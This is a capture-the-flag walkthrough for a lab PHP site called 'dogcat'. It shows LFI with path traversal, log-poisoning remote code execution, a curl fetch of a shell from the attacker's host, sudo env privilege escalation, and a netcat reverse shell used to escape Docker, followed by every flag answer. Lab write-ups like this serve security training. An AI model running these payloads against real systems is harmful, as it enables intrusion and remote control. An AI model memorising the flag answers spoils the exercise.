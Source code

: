 # dogcat 

Welcome to the DogCat website! Here, you can enjoy browsing through pictures of adorable dogs and cats. 
This site also provides an opportunity to exploit a PHP application via Local File Inclusion (LFI) and escape from a Docker container.

IP Address: `10.10.48.112`

## Initial Reconnaissance

### Nmap Scan

To gather information about open ports and services, run the following Nmap scan:

```
nmap -sC -sV -oN initial.log 10.10.48.112
```

The scan reveals the following open ports and services:

- **22/tcp**: OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- **80/tcp**: Apache httpd 2.4.38 ((Debian))

## Task 1.

### Nikto Scan

Use the Nikto scanner to detect vulnerabilities in the HTTP service:

```
nikto -h http://10.10.48.112 | tee nikto.log
```

### Local File Inclusion (LFI) Attack

The application processes files via the `view` parameter. You can exploit this by performing an LFI attack using the `php://filter` wrapper to encode server-side files in Base64. For example:

```
http://10.10.48.112/?view=php://filter/convert.base64-encode/resource=dog
```

By examining the source code of `index.php`, the following snippet is revealed:

```
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
if (isset($_GET['view'])) {
    if (containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
        echo 'Here you go!';
        include $_GET['view'] . $ext;
    } else {
        echo 'Sorry, only dogs or cats are allowed.';
    }
}
```

This snippet checks for `dog` or `cat` in the `view` parameter but fails to prevent directory traversal attacks. Using a crafted parameter, such as:

```
dog/../../../../../../../../etc/passwd
```

with `ext=` allows access to sensitive files like `/etc/passwd`. Example output:

```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

### Remote Code Execution (RCE)

Injecting PHP code into the User-Agent header enables command execution via the `c` parameter in the URL. Example:

```
curl "http://10.10.48.112/" -H "User-Agent: <?php system(\$_GET['c']); ?>"
```

To upload a reverse shell, serve the file using a local Python HTTP server:

```
python3 -m http.server
```

Access the application logs:

```
view-source:http://10.10.48.112/?view=cat/../../../../../../../../../../var/log/apache2/access.log&ext&c=curl%20http://10.23.56.130:8000/shell.php%20-o%20shell.php
```

Execute the uploaded php to obtain the reverse shell:

```
http://10.10.48.112/shell.php
```

### Privilege Escalation

Run the following command to check sudo privileges:

```
sudo -l
```

Output:

```
User www-data may run the following commands on 8e71e0279cea:
    (root) NOPASSWD: /usr/bin/env
```

Using GTFOBins I see how to escalate to root privileges using `env` binary and retrieve the first three flags.

### Escaping Docker

Check `/opt/backups` for a `backup.sh` file:

```
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Append a reverse shell payload to the script:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.23.56.130 8888 >/tmp/f
```

This provides access to the host machine and the final flag.

## Questions

1. What is flag 1?
    > THM{Th1s_1s_N0t_4_Catdog_ab67edfa}

2. What is flag 2?
    > THM{LF1_t0_RC3_aec3fb}

3. What is flag 3?
    > THM{D1ff3r3nt_3nv1ronments_874112}

4. What is flag 4?
    > THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
